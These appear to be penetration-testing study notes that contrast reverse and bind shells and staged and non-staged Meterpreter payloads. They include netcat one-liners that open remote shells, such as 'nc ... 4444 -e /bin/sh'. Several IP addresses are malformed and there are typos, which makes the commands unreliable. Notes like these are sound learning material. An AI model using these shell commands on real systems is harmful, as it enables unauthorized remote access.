 ## Reverse versus Blind Shells
* Reverse shell means a victim connects to us. Target is connecting, attackbox is listening.  
  * We are listening on a port (nc -lvp 4444, lvp is listening verbose prot)
  * Victim machine is saying nc 192.168.1.1.1 4444 -e /bin/sh
* Blind shell (we connect to a victim) - we open a port on the machine, and then we connect to it
  * Exploit opens up port, so we connect through nc 192.1682.1.2 4444
  * On victim side, nc -lvp 4444 -e /bin/sh
 * You will be using reverse shells 95% of the time. Blind shells are most likely on external assessments.
   * Externals use bind shells - NAT through public IP address to connect to that port. Reverse, you would have to open up your home network to the world.

  ## Staged versus Non-Staged Payloads
* Non-staged: Sends exploit shellcode all at once. Large in size and won't alway work.
  * Example: windows/meterpreter_reverse_tcp
 * Staged: Sends payloads in stages, can be less table.
   * Example: windows/meterpreter/reverse_tcp
